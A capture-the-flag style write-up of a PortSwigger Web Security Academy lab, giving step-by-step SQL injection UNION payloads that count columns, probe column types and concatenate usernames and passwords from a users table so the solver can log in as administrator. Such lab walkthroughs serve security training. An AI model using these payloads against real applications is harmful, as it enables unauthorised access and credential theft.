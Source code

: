 ```yaml
---
title: 'Lab: SQL injection UNION attack, retrieving multiple values in a single column'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/SQL"
---
```


# Lab: SQL injection UNION attack, retrieving multiple values in a single column
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables. 
* Hint:  The database contains a different table called users, with columns called username and password.
To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

## Exp
1. Consider how many columns in this table
Payload: `?category=Lifestyle' UNION SELECT NULL,NULL--`
2. Consider the type of each columns
Payload: `?category=Lifestyle' UNION SELECT 1,'a'--`
As the payload above, the 1st column is number-based string, and 2nd column is text-based string.
    :::spoiler Result
    ![](https://i.imgur.com/9V0cYHD.png)
    :::
3. <font color="FF0000">通靈</font>: Find username and password
From the result above, there's just one column is text-based string that we can inject, so we can use concatenate operator `||` to concatenate two strings that we query together.
Payload: `?category=Gifts' UNION SELECT NULL,username||'~'||password FROM users--`
    :::spoiler Result
    ![](https://i.imgur.com/d1zw9eY.png)
    :::
4. Login by username and password that we fetch
    :::spoiler Success Screenshot
    ![](https://i.imgur.com/P9CLaQg.png)
    :::

## Reference